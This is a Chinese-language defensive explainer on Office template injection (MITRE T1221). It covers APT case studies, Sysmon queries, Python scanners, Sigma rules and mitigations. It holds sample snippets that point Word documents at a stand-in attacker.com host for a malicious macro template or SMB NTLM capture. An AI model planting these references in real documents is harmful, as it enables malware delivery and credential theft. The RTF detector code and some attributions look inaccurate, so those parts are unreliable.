

# 模板注入 (T1221)

## 一句话通俗理解

攻击者像在快递盒里塞了一张"取件通知单"——文档表面看起来人畜无害，但当用户打开它时，Word会乖乖地按照通知单去攻击者控制的远程服务器取回真正的"包裹"（恶意宏代码或认证陷阱）。

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 修改Office文档（.docx/.rtf/.dotm）内部的模板引用URL，让文档打开时自动从攻击者控制的远程服务器拉取恶意模板或触发强制认证 |
| 为什么危险？ | 静态扫描看不到任何VBA宏、漏洞利用代码或可疑脚本——恶意内容在文档被打开后才从网络下载，传统沙箱 detonation 可能错过；还可变种为强制认证盗取NTLM哈希 |
| 谁需要关心？ | 邮件安全工程师、SOC分析师、Office环境管理员、反钓鱼团队、AD域安全工程师 |
| 你的第一步防御 | 在邮件网关与代理上拦截Office进程对外部URL的远程模板请求，并阻断Office进程向非内部地址发起SMB/NTLM认证 |
| 如果只做一件事 | 部署Sigma规则监控winword.exe/excel.exe发起的出站HTTP/SMB连接，并对NTLM外联（端口445）告警 |

## 难度等级

⭐⭐ 中级（需要理解Office文件格式与网络协议）

模板注入属于中级隐蔽技术，原因在于：
- 攻击者需要理解Office Open XML（OOXML）的ZIP包结构，以及RTF的`*\template`控制字语法
- 实施门槛低——开源工具Phishery可在数秒内完成模板注入，但成功利用需要钓鱼工程配合
- 防御方若不了解"文档可在打开后动态加载远程资源"这一机制，很容易被静态扫描结果误导
- 强制认证变种需要理解NTLM/NTLMv2协议与SMB/HTTPS认证流程，并配合捕获工具（如Responder）

## 前置知识检查

**读这个文件需要什么？**

- [ ] Microsoft Office Open XML（OOXML）文件格式基础（.docx本质是ZIP包）
- [ ] Word模板文件（.dot/.dotm）的作用与加载机制
- [ ] RTF（Rich Text Format）基础语法与控制字
- [ ] NTLM/NTLMv2认证协议与SMB协议（理解强制认证变种所需）
- [ ] 钓鱼攻击链与初始访问战术（TA0001）
- [ ] Sigma规则与Sysmon日志基础

## 概述

模板注入（T1221）是MITRE ATT&CK框架中**属于隐蔽战术（TA0005）**的技术。攻击者通过创建或修改用户文档模板中的引用，以隐藏恶意代码或触发强制认证尝试。该技术主要利用Microsoft Office的开放XML格式（OOXML）规范和RTF文件格式的模板控制字机制。

**通俗解释：**

想象你收到一份精美的礼品盒（Word文档），表面上看就是个普通礼物，没有任何危险迹象。但礼品盒里藏着一张取件通知单（模板引用URL）——当你打开礼品盒时，快递员（Word程序）会自动按照通知单的地址去某个仓库（攻击者服务器）取回真正的"附赠品"（恶意模板或认证陷阱）。如果你没仔细看通知单上的地址，仓库主人（攻击者）就能：
1. 给你装满恶意代码的"附赠品"（远程模板注入宏代码）
2. 假装是快递签收，让你交出身份证件（强制认证盗取NTLM哈希）

**过渡段：** 模板注入的精髓在于"延迟加载"——把恶意内容与载体文档分离，让静态扫描看到的只是"无害的快递盒"，而真正的恶意载荷要等到用户打开文档、Word程序主动去网络获取时才出现。这种"分体式"攻击思路让传统的"扫描附件即判定"防御策略失效。下面我们从OOXML与RTF两个方向，看看模板注入的具体实现方式。

**技术原理（按文件格式分类）：**

### 一、OOXML模板注入（.docx/.xlsx/.pptx）

Microsoft Office 2007及以上版本采用OOXML（Office Open XML）格式存储文档。OOXML文件本质上是一个ZIP压缩包，内部由多个XML文件（称为"parts"）组成，这些XML文件通过属性集合定义文档如何渲染。

```
恶意文档.docx (ZIP包)
├── [Content_Types].xml
├── _rels/
│   └── .rels
├── word/
│   ├── document.xml          ← 主文档内容
│   ├── settings.xml          ← 文档设置（含模板引用）
│   ├── _rels/
│   │   └── document.xml.rels ← 关系定义文件（攻击目标）
│   └── ...
└── docProps/
    └── ...
```

**攻击点1：document.xml.rels中的attachedTemplate引用**

在`word/_rels/document.xml.rels`中，存在一个`attachedTemplate`关系项，定义文档关联的模板文件路径：

```xml
<!-- 原始合法引用 -->
<Relationship Id="rId1"
    Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/officeDocument"
    Target="template.dotx"/>

<!-- 攻击者修改为远程URL -->
<Relationship Id="rId1"
    Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"
    Target="https://attacker.com/malicious.dotm"
    TargetMode="External"/>
```

当用户用Word打开这个.docx文件时，Word会自动去`https://attacker.com/malicious.dotm`下载模板文件并应用。攻击者将恶意宏代码（VBA）放在这个远程.dotm模板中，宏代码会在文档打开时执行。

**攻击点2：settings.xml中的远程模板属性**

在`word/settings.xml`中也可以嵌入远程模板引用：

```xml
<w:attachedTemplate r:id="rId1"
    xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main"
    xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships"/>
```

配合`document.xml.rels`中`rId1`指向外部URL，效果相同。

**关键优势：** .docx文件本身不包含任何宏代码，因此静态扫描时它就是一个"干净"的文档——既没有VBA宏，也没有漏洞利用代码。恶意载荷只在Word打开文档、向远程服务器请求模板时才下载回来。这意味着：
- 默认的邮件附件扫描可能放行这种.docx文件
- 静态YARA规则难以匹配（除非专门检查rels文件中的外部URL）
- 沙箱 detonation 如果没有完整的网络出站能力，可能错过恶意行为

### 二、RTF模板注入（.rtf）

RTF（Rich Text Format）是另一种被广泛支持的文档格式，其中包含一个合法的`*\template`控制字，本意是指定RTF文件加载时所引用的模板文件路径。

```
{\rtf1\ansi\ansicpg936\deff0
{\fonttbl{\f0\fnil\fcharset134 SimSun;}}
\*\template https://attacker.com/payload.dotm
\f0\fs180 这是诱饵文档内容...}
```

**攻击机制：**

1. 攻击者拿到一个正常的RTF文件（如通过钓鱼邮件投递的诱饵文档）
2. 在RTF字节流中插入`*\template`控制字，后跟一个URL（HTTP/HTTPS/SMB）
3. 当Word或其他RTF阅读器打开该文件时，会自动尝试从该URL获取模板资源
4. 如果URL指向攻击者控制的.dotm文件，则其中的宏代码会被执行
5. 如果URL指向SMB路径（如`\\attacker.com\share\file.doc`），则会触发NTLM认证，攻击者可捕获哈希

**变种——RTF模板注入的"任意URL加载"特性：** 与OOXML变种不同，RTF的`*\template`控制字可以直接接受SMB/UNC路径（如`\\attacker.com\share\template.dot`）。当Word尝试访问这个UNC路径时，会自动使用当前用户的NTLM凭据进行认证——这就是模板注入实现强制认证（Forced Authentication）的基础。

### 三、强制认证变种（Forced Authentication Variant）

模板注入的强制认证变种与T1187（强制认证）密切相关，是T1221与T1187的交叉应用。

**攻击机制：**

1. 攻击者构造一个.docx或.rtf文件，模板引用指向SMB UNC路径或攻击者控制的HTTPS服务器
2. 钓鱼邮件投递给目标用户
3. 用户打开文档，Word程序尝试访问`\\attacker.com\share\file.dot`
4. 攻击者控制的服务器返回401 Unauthorized，要求NTLM认证
5. Word程序自动使用当前用户的NTLM哈希响应认证
6. 攻击者使用Responder或类似工具捕获NTLMv2哈希，进行离线破解或NTLM Relay攻击

**SMB URL示例：**
```
\\attacker-controlled-server\share\template.dot
file://attacker.com/share/template.dot
```

**HTTPS URL示例（同样可触发NTLM认证）：**
```
https://attacker.com/template.dot
```

**用途与影响：**

模板注入是APT组织在初始访问阶段最爱用的技术之一。它的价值体现在三个层面：**静态隐蔽**（载体文档不含恶意代码，绕过传统扫描）、**动态加载**（恶意内容在用户环境内才下载，绕过邮件网关）、**凭证盗取**（强制认证变种可直接获取NTLM哈希）。从APT28到Gamaredon，从DarkHydrus到Lazarus，几乎所有主流APT组织都曾使用模板注入作为初始访问或凭证收集手段。由于该技术不需要漏洞利用，且工具开源易得（Phishery），其威胁水平被安全行业评为"高"。

## 攻击流程

### 典型攻击流程

```
构造钓鱼诱饵文档 --> 注入远程模板URL --> 邮件投递给目标 --> 用户打开文档 --> Word自动请求远程模板 --> 恶意模板下载并执行/NTLM认证被捕获 --> 后渗透与横向移动
```



**步骤详解：**

1. **构造钓鱼诱饵文档**
   - 通俗描述：攻击者精心设计一个看起来人畜无害的诱饵文档，主题可能是"招聘通知"、"财务报表"、"项目方案"等
   - 技术细节：选择一个合理的钓鱼主题（如针对政府机构的"政策通知"、针对企业的"采购合同"），准备对应的文档外观与正文内容
   - 常用工具：Microsoft Word、LibreOffice、自动化文档生成脚本

2. **注入远程模板URL**
   - 通俗描述：把"取件通知单"塞进文档的内部结构里
   - 技术细节：根据文件格式选择注入方式——OOXML格式需修改ZIP包内`word/_rels/document.xml.rels`的`attachedTemplate`关系；RTF格式需在文件字节流中插入`*\template`控制字
   - 常用工具：[Phishery](https://github.com/ryhanson/phishery)（开源一键注入工具）、7-Zip（手动解压修改OOXML）、Python脚本（rtfgen等）

3. **邮件投递给目标**
   - 通俗描述：用钓鱼邮件把"特洛伊木马文档"送给目标用户
   - 技术细节：通常配合T1566（钓鱼）技术，使用鱼叉式钓鱼邮件投递；邮件主题与文档内容需高度相关以提高打开率
   - 常用工具：自定义SMTP投递脚本、商业钓鱼模拟平台

4. **用户打开文档**
   - 通俗描述：用户被诱饵内容吸引，双击打开附件
   - 技术细节：用户打开.docx或.rtf文件时，Word会自动解析文档中的模板引用，无需用户点击任何"启用内容"按钮（与VBA宏不同）
   - 常用工具：无（被动等待用户操作）

5. **Word自动请求远程模板**
   - 通俗描述：Word像快递员一样按通知单地址去取"包裹"
   - 技术细节：
     - OOXML变种：Word向`Target`属性指定的HTTPS URL发起GET请求下载.dotm模板
     - RTF变种：Word向`*\template`控制字指定的URL发起请求
     - 强制认证变种：Word向SMB UNC路径发起445端口连接，自动使用当前用户NTLM凭据认证
   - 常用工具：无（Office自身行为）

6. **恶意载荷执行/凭证被捕获**
   - 通俗描述："包裹"打开了——要么是恶意代码跑起来，要么是用户的"身份证"被攻击者拍照保存
   - 技术细节：
     - 远程模板变种：下载的.dotm文件中VBA宏自动执行（如果用户启用了宏），通过WMI、PowerShell或Shell命令下载并运行真正的恶意软件
     - 强制认证变种：攻击者使用Responder或Inveigh监听SMB端口，捕获NTLMv2哈希；或使用ntlmrelayx进行NTLM Relay攻击
   - 常用工具：Cobalt Strike Beacon、Mimikatz、Responder、Inveigh、impacket-ntlmrelayx

7. **后渗透与横向移动**
   - 通俗描述：站稳脚跟后，开始向其他机器扩张
   - 技术细节：通过C2通道下发指令，进行内网侦察、凭证转储、横向移动
   - 常用工具：Cobalt Strike、Impacket、BloodHound

## 真实攻击场景

### 场景1：APT28（Fancy Bear）远程模板注入攻击全球政府机构（2018）

- **时间**：2018年
- **目标**：全球政府机构、外交组织、智库
- **攻击组织**：APT28（Fancy Bear、Sofacy、STRONTIUM）
- **手法**：APT28使用武器化的Microsoft Word文档，滥用远程模板功能获取恶意宏。攻击者投递看似合法的.docx文件（如主题为"Dear Joohn"的钓鱼邮件），文档内部修改了`document.xml.rels`中的`attachedTemplate`引用，指向攻击者控制的HTTPS服务器上的恶意.dotm模板。当受害者打开.docx文件时，Word自动下载并应用远程.dotm模板，模板中的VBA宏代码执行，下载并运行Sofacy后门（如X-Agent、Zebrocy）。由于.docx文件本身不含宏代码，邮件网关的静态扫描未能拦截。
- **影响**：多个政府机构与外交组织被入侵，攻击者窃取敏感外交情报
- **参考链接**：[MITRE - APT28](https://attack.mitre.org/groups/G0007/)、[Palo Alto Unit 42 - Dear Joohn Campaign](https://unit42.paloaltonetworks.com/dear-joohn-sofacy-groups-global-campaign/)

### 场景2：DarkHydrus使用Phishery在中东盗取凭证（2018）

- **时间**：2018年
- **目标**：中东地区政府机构、教育机构
- **攻击组织**：DarkHydrus（LazyScripter）
- **手法**：DarkHydrus使用开源工具Phishery向Microsoft Word文档注入恶意远程模板URL，并将这些文档作为钓鱼邮件附件投递给中东地区的目标。模板URL指向攻击者控制的SMB服务器，当受害者打开文档时，Word程序尝试通过SMB协议访问远程模板路径，自动发起NTLM认证。攻击者使用工具捕获受害者的NTLMv2哈希，进行离线破解后获得明文密码，进而横向移动到内部网络。这是一个典型的T1221+T1187组合攻击——模板注入用于触发强制认证。
- **影响**：多个中东机构凭证泄露，攻击者获得内部网络访问权限
- **参考链接**：[MITRE - DarkHydrus](https://attack.mitre.org/groups/G0079/)、[Palo Alto Unit 42 - DarkHydrus Uses Phishery](https://researchcenter.paloaltonetworks.com/2018/08/unit42-darkhydrus-uses-phishery-harvest-credentials-middle-east/)

### 场景3：Dragonfly（Energetic Bear）攻击能源基础设施（2018）

- **时间**：2018年
- **目标**：美国与欧洲能源基础设施、工业控制系统
- **攻击组织**：Dragonfly（Energetic Bear、IRON LIBERTY）
- **手法**：Dragonfly在针对能源行业的鱼叉式钓鱼攻击中，使用注入了SMB URL的恶意Word附件。文档的模板引用指向攻击者控制的SMB服务器，当能源公司员工打开文档时，Word程序自动尝试通过SMB认证访问远程模板，攻击者捕获NTLM哈希后利用NTLM Relay攻击横向移动到工业控制网络。这种攻击方式不依赖任何漏洞，仅利用Office的合法功能与NTLM协议的固有弱点。US-CERT为此发布了TA18-074A预警。
- **影响**：多处能源设施网络被渗透，部分工业控制系统面临被操控风险
- **参考链接**：[MITRE - Dragonfly](https://attack.mitre.org/groups/G0035/)、[US-CERT Alert TA18-074A](https://www.us-cert.gov/ncas/alerts/TA18-074A)

### 场景4：Gamaredon针对乌克兰的持续RTF模板注入攻击（2020-2022）

- **时间**：2020年至2022年
- **目标**：乌克兰政府机构、军事组织、外交部门
- **攻击组织**：Gamaredon Group（Primitive Bear、IRON TILDEN、Actinium）
- **手法**：Gamaredon是模板注入技术的"重度用户"，持续使用多种变种：
  - **OOXML变种**：投递.docx文件，下载远程.dot模板文件
  - **RTF变种**：使用RTF模板注入技术下载恶意载荷，Proofpoint报告称这是一种"准备大规模普及"的新技术
  - **二次注入变种**：在已入侵的系统上，Gamaredon会向已存在的合法文档中注入恶意宏或远程模板，再通过这些"被污染的"合法文档传播给其他目标
  Gamaredon的攻击频率极高（每月数百封钓鱼邮件），且持续迭代技术细节以绕过防御。
- **影响**：乌克兰多个政府机构被持续渗透，敏感信息长期外泄
- **参考链接**：[MITRE - Gamaredon Group](https://attack.mitre.org/groups/G0047/)、[Proofpoint - RTF Template Inject](https://www.proofpoint.com/us/blog/threat-insight/injection-new-black-novel-rtf-template-inject-technique-poised-widespread)、[ESET - Gamaredon Way Whitepaper](https://web-assets.esetstatic.com/wls/en/papers/white-papers/cyberespionage-gamaredon-way.pdf)

### 场景5：MirrorFace（APT10）针对日本的远程模板注入（2024）

- **时间**：2024年1月
- **目标**：日本政府机构、智库、研究机构、关键基础设施
- **攻击组织**：MirrorFace（APT10、MenuPass、Stone Panda）
- **手法**：MirrorFace使用远程模板注入技术从C2服务器获取恶意载荷。攻击者投递主题与日本政治、经济相关的诱饵文档，文档内嵌远程模板URL指向攻击者控制的HTTPS服务器。当受害者打开文档时，Word下载并执行远程.dotm模板中的LODEINFO后门（v0.6.6至v0.7.3版本）。后门具备文件操作、命令执行、屏幕截图、键盘记录等功能。由于.docx文件本身不含恶意代码，日本的安全网关未能有效拦截。
- **影响**：日本多个政府与研究机构被入侵，敏感信息被窃取
- **参考链接**：[MITRE - MirrorFace](https://attack.mitre.org/groups/G1054/)、[ITOCHU - LODEINFO Analysis](https://blog-en.itochuci.co.jp/entry/2024/01/24/134100)

### 场景6：Lazarus Group"Operation Dream Job"针对国防与航空航天（2020）

- **时间**：2020年
- **目标**：国防承包商、航空航天公司、军事机构
- **攻击组织**：Lazarus Group（Hidden Cobra、APT38）
- **手法**：在Operation Dream Job行动中，Lazarus Group使用.docx文件获取恶意文档模板/DOTM文件。攻击者伪装成招聘人员，通过LinkedIn向目标发送虚假的高薪工作邀请，附带"职位描述".docx文档。文档内嵌远程模板URL指向攻击者控制的服务器，下载包含恶意宏的.dotm模板。宏代码执行后部署Cobalt Strike Beacon与自定义后门。这一行动特别阴险——它利用求职者对工作机会的渴望，使其绕过常规安全意识防线。
- **影响**：多家国防与航空航天公司被入侵，敏感军工技术信息面临泄露风险
- **参考链接**：[MITRE - Operation Dream Job](https://attack.mitre.org/campaigns/C0022/)、[ClearSky - Dream Job Campaign](https://www.clearskysec.com/wp-content/uploads/2020/08/Dream-Job-Campaign.pdf)

### 场景7：Chaes针对拉丁美洲电商的模板注入（2020）

- **时间**：2020年11月
- **目标**：拉丁美洲电子商务平台用户（尤其Mercado Libre）
- **攻击组织**：Chaes（未明确归属）
- **手法**：Chaes恶意软件改变了Word文档内部`settings.xml`文件的模板目标字段，将该字段填充为下一阶段载荷的下载URL。当受害者打开伪装成购物订单确认的.docx文档时，Word程序自动向攻击者服务器请求远程模板，模板中的代码进一步下载并执行Chaes恶意软件。Chaes主要窃取浏览器凭证、加密货币钱包、银行信息。
- **影响**：拉丁美洲大量电商用户凭证与资金被盗
- **参考链接**：[MITRE - Chaes](https://attack.mitre.org/software/S0631/)、[Cybereason - Chaes Research](https://www.cybereason.com/hubfs/dam/collateral/reports/11-2020-Chaes-e-commerce-malware-research.pdf)

## 检测方法

**用人话说：** 模板注入的检测核心是"识别Office程序的网络外联行为"——正常情况下，Word/Excel/PowerPoint不应该向互联网上的外部URL发起HTTP请求获取模板，更不应该向非内部地址发起SMB/NTLM认证。一旦检测到Office进程发起这类出站连接，就高度可疑。

### 检测策略映射

| 检测策略ID | 检测策略名称 | 分析ID | 分析名称 |
|-----------|------------|--------|---------|
| [DET0566](https://attack.mitre.org/detectionstrategies/DET0566) | 模板注入检测 - Windows | AN1564 | Office或文档查看器进程（如winword.exe）发起网络连接到远程模板，或由于被操纵的模板引用（嵌入在.docx、.rtf或.dotm文件中）执行脚本，随后创建可疑子进程（如PowerShell） |

### 网络层检测

**检测方法：** 监控网络流量中Office进程发起的出站连接，识别从内部主机向外部IP/域名请求.docx/.dotm/.dot/.rtf文件的行为模式。强制认证变种需监控SMB端口（445/139）的出站连接与NTLM认证流量。

**关键网络特征：**
- 来自`winword.exe`、`excel.exe`、`powerpnt.exe`的出站HTTP/HTTPS请求
- 出站SMB连接（端口445/139）来自Office进程
- NTLMv2认证流量外发到非内部地址
- HTTP请求中包含`.dotm`、`.dot`、`.xltm`、`.xls`、`.rtf`等扩展名的URL

### 主机层检测

**Windows事件ID与Sysmon事件：**
- Sysmon Event ID 1：进程创建（关注Office进程派生PowerShell/cmd/wscript等可疑子进程）
- Sysmon Event ID 3：网络连接（**核心**——监控Office进程的出站连接）
- Sysmon Event ID 22：DNS查询（监控Office进程解析的可疑域名）
- Event ID 4624：登录成功（关注类型3——网络登录，可能是NTLM认证被捕获）
- Event ID 4648：显式凭证登录（关注使用NTLM的登录尝试）

**具体命令示例：**
```powershell
# 检测Office进程发起的出站网络连接（Sysmon Event ID 3）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=3} |
    Where-Object { $_.Message -match 'winword.exe|excel.exe|powerpnt.exe|outlook.exe' } |
    Select-Object TimeCreated, Message -First 100

# 检测Office进程派生可疑子进程（Sysmon Event ID 1）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} |
    Where-Object {
        ($_.Message -match 'ParentImage.*winword.exe|ParentImage.*excel.exe|ParentImage.*powerpnt.exe') -and
        ($_.Message -match 'powershell.exe|cmd.exe|wscript.exe|cscript.exe|rundll32.exe')
    } |
    Select-Object TimeCreated, Message -First 50

# 检测Office进程发起的SMB连接（端口445，强制认证变种特征）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=3} |
    Where-Object {
        $_.Message -match 'winword.exe|excel.exe' -and
        $_.Message -match 'DestinationPort: 445|DestinationPort: 139'
    } |
    Select-Object TimeCreated, Message -First 50
```

### 文件层检测

**检测OOXML文件中的远程模板引用：**

```python
# Python脚本示例：扫描.docx文件中的远程模板引用
import zipfile
import xml.etree.ElementTree as ET

def check_docx_template_injection(file_path):
    """检测.docx文件是否存在远程模板注入"""
    try:
        with zipfile.ZipFile(file_path, 'r') as z:
            # 检查document.xml.rels中的attachedTemplate
            for name in z.namelist():
                if name.endswith('.rels') and 'document.xml.rels' in name:
                    content = z.read(name).decode('utf-8', errors='ignore')
                    if 'attachedTemplate' in content or 'TargetMode="External"' in content:
                        # 提取Target URL
                        if 'http' in content or '\\\\' in content or 'file://' in content:
                            return True, f"发现远程模板引用: {content[:200]}"
    except Exception as e:
        return False, f"解析失败: {e}"
    return False, "未发现远程模板引用"
```

**检测RTF文件中的`*\template`控制字：**

```python
def check_rtf_template_injection(file_path):
    """检测.rtf文件是否存在模板注入"""
    try:
        with open(file_path, 'rb') as f:
            content = f.read(8192)  # 读取前8KB即可
            if b'\\\\template' in content or b'\\\\*\\\\template' in content:
                # 提取URL
                import re
                matches = re.findall(rb'\\\\template\s+(https?://|\\\\\\\\|file://)[^\s}]+', content)
                if matches:
                    return True, f"发现RTF模板注入: {[m.decode('utf-8', errors='ignore') for m in matches]}"
    except Exception as e:
        return False, f"解析失败: {e}"
    return False, "未发现RTF模板注入"
```

### 应用层检测

**检测要点：**

1. **Office进程网络外联检测**
   - 日志来源：Sysmon Event ID 3（网络连接）
   - 关注字段：Image（进程名）、DestinationIp、DestinationPort、DestinationHostname
   - 异常特征：`winword.exe`/`excel.exe`/`powerpnt.exe`向非内部地址发起HTTP/HTTPS/SMB连接

2. **Office进程子进程异常检测**
   - 日志来源：Sysmon Event ID 1（进程创建）
   - 关注字段：ParentImage、Image、CommandLine
   - 异常特征：Office进程派生`powershell.exe`、`cmd.exe`、`wscript.exe`、`rundll32.exe`等可疑子进程

3. **NTLM认证异常检测**
   - 日志来源：Windows安全日志 Event ID 4624（类型3——网络登录）
   - 关注字段：LogonType、AuthenticationPackageName（NTLM）、WorkstationName、IpAddress
   - 异常特征：用户在工作站打开文档后短时间内出现NTLM认证到外部地址

4. **文档文件特征检测**
   - 日志来源：邮件网关日志、EDR文件扫描
   - 关注字段：文件类型、文件大小、内部XML结构
   - 异常特征：.docx文件包含`TargetMode="External"`的rels关系项；.rtf文件包含`*\template`控制字

## 检测规则示例

### Sigma规则：检测Office进程发起的远程模板下载

```yaml
title: 检测Office进程发起的远程模板下载
id: a1b2c3d4-e5f6-4a5b-8c9d-0e1f2a3b4c5d
status: experimental
description: 检测winword.exe/excel.exe/powerpnt.exe进程发起的出站HTTP/HTTPS连接，可能表明T1221模板注入的远程模板下载行为
references:
    - https://attack.mitre.org/techniques/T1221/
    - https://attack.mitre.org/detectionstrategies/DET0566
author: ATT&CK知识库
date: 2026/07/24
logsource:
    product: windows
    service: sysmon
detection:
    selection_office_process:
        EventID: 3
        Image|endswith:
            - '\winword.exe'
            - '\excel.exe'
            - '\powerpnt.exe'
            - '\outlook.exe'
    filter_internal_connections:
        DestinationIp|cidr:
            - '10.0.0.0/8'
            - '172.16.0.0/12'
            - '192.168.0.0/16'
            - '127.0.0.0/8'
    filter_microsoft_update:
        DestinationHostname|endswith:
            - '.microsoft.com'
            - '.office.com'
            - '.office365.com'
            - '.windowsupdate.com'
    condition: selection_office_process and not filter_internal_connections and not filter_microsoft_update
falsepositives:
    - 用户从外部网站下载Office模板（如Microsoft模板库）
    - 企业内部模板服务器配置错误，使用了外部地址
    - Office加载项与外部服务通信
level: high
tags:
    - attack.t1221
    - attack.defense_evasion
    - attack.t1187
    - attack.initial_access
```

### Sigma规则：检测Office进程发起的SMB连接（强制认证变种）

```yaml
title: 检测Office进程发起的SMB连接（模板注入强制认证变种）
id: b2c3d4e5-f6a7-4b5c-9d0e-1f2a3b4c5d6e
status: experimental
description: 检测winword.exe/excel.exe等Office进程向外部地址发起SMB连接（端口445/139），可能表明T1221+T1187强制认证攻击
references:
    - https://attack.mitre.org/techniques/T1221/
    - https://attack.mitre.org/techniques/T1187/
author: ATT&CK知识库
date: 2026/07/24
logsource:
    product: windows
    service: sysmon
detection:
    selection_office_process:
        EventID: 3
        Image|endswith:
            - '\winword.exe'
            - '\excel.exe'
            - '\powerpnt.exe'
    selection_smb_port:
        DestinationPort:
            - 445
            - 139
    filter_internal_connections:
        DestinationIp|cidr:
            - '10.0.0.0/8'
            - '172.16.0.0/12'
            - '192.168.0.0/16'
    condition: selection_office_process and selection_smb_port and not filter_internal_connections
falsepositives:
    - 用户从内部SMB文件服务器加载Office模板（应通过白名单处理）
    - 企业DFS命名空间访问
level: critical
tags:
    - attack.t1221
    - attack.t1187
    - attack.defense_evasion
    - attack.credential_access
```

### Sigma规则：检测Office进程派生可疑子进程

```yaml
title: 检测Office进程派生可疑子进程（模板注入载荷执行）
id: c3d4e5f6-a7b8-4c6d-0e1f-2a3b4c5d6e7f
status: experimental
description: 检测Office进程派生PowerShell/cmd/wscript等可疑子进程，可能表明T1221模板注入下载的远程模板中的宏代码已执行
references:
    - https://attack.mitre.org/techniques/T1221/
author: ATT&CK知识库
date: 2026/07/24
logsource:
    product: windows
    service: sysmon
detection:
    selection_parent_office:
        EventID: 1
        ParentImage|endswith:
            - '\winword.exe'
            - '\excel.exe'
            - '\powerpnt.exe'
    selection_suspicious_child:
        Image|endswith:
            - '\powershell.exe'
            - '\pwsh.exe'
            - '\cmd.exe'
            - '\wscript.exe'
            - '\cscript.exe'
            - '\rundll32.exe'
            - '\regsvr32.exe'
            - '\mshta.exe'
    condition: selection_parent_office and selection_suspicious_child
falsepositives:
    - 合法的Office加载项（如PDF转换器）启动外部进程（需建立基线白名单）
    - Excel宏调用PowerShell执行合法业务脚本（应通过代码签名验证）
level: critical
tags:
    - attack.t1221
    - attack.t1059
    - attack.defense_evasion
    - attack.execution
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 阻断Office进程的外部网络访问

**具体实施步骤：**
1. 通过Windows Defender Firewall with Advanced Security配置出站规则，禁止`winword.exe`、`excel.exe`、`powerpnt.exe`、`outlook.exe`访问非内部网络
2. 在企业代理服务器上拦截Office进程的User-Agent请求外部URL的行为
3. 在邮件网关上扫描.docx/.rtf/.dotm文件，提取并检查`document.xml.rels`中的`Target`字段是否为外部URL
4. 网络层阻断SMB协议（端口445/139）出站到互联网的流量，防止强制认证变种的NTLM哈希外泄

### 优先级2：重要措施

**措施名称：** 禁用或限制Office宏与外部内容加载

**具体实施步骤：**
1. 通过组策略（GPO）禁用Microsoft Office宏，或仅允许来自受信任位置的宏运行
   - 路径：`User Configuration\Administrative Templates\Microsoft Word 2016\Word Options\Security\Trust Center\VBA Macro Notification Settings`
2. 在Office Trust Center中禁用"允许从互联网加载远程模板"选项
3. 启用Microsoft Office的"阻止来自互联网的Office文件"功能（Office 365与Office 2021+）
4. 配置Office的"网络位置阻止"策略，限制Office程序访问的UNC路径范围

> **注意：** 禁用宏可能无法缓解强制认证变种，因为该变种不需要宏执行，仅依赖Word程序访问SMB URL的行为。

### 优先级3：建议措施

**措施名称：** 加强用户意识培训与EDR检测

**具体实施步骤：**
1. 定期开展钓鱼演练，模拟模板注入攻击场景，培训用户识别可疑邮件附件
2. 部署EDR并启用针对Office进程异常行为的检测规则（参考上述Sigma规则）
3. 对Windows域控制器配置SMB签名要求（`Microsoft network server: Digitally sign communications always`），缓解NTLM Relay攻击
4. 启用LAN Manager身份验证级别为"仅发送NTLMv2响应"（`Network security: LAN Manager authentication level = 5`），降低NTLM哈希破解成功率
5. 部署Microsoft Defender for Endpoint的"攻击面减少（ASR）"规则，特别是：
   - "阻止Office应用程序创建子进程"
   - "阻止Office应用程序将代码注入其他进程"
   - "阻止Office通信应用程序创建子进程"

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| [M1049](https://attack.mitre.org/mitigations/M1049) | 杀毒软件/反恶意软件 | 适用 | 网络入侵预防系统、杀毒软件和detonation chamber可用于阻止文档获取和/或执行恶意载荷 |
| [M1042](https://attack.mitre.org/mitigations/M1042) | 禁用或移除功能或程序 | 适用 | 考虑禁用Microsoft Office宏/活动内容，防止文档中的恶意载荷执行。注意：此设置可能无法缓解强制认证变种 |
| [M1031](https://attack.mitre.org/mitigations/M1031) | 网络入侵预防 | 适用 | 网络入侵预防系统可在网络层拦截Office进程向外部URL的模板请求 |
| [M1017](https://attack.mitre.org/mitigations/M1017) | 用户培训 | 适用 | 培训用户识别社会工程技术和鱼叉式钓鱼邮件，避免打开可疑附件 |

## 动手实验

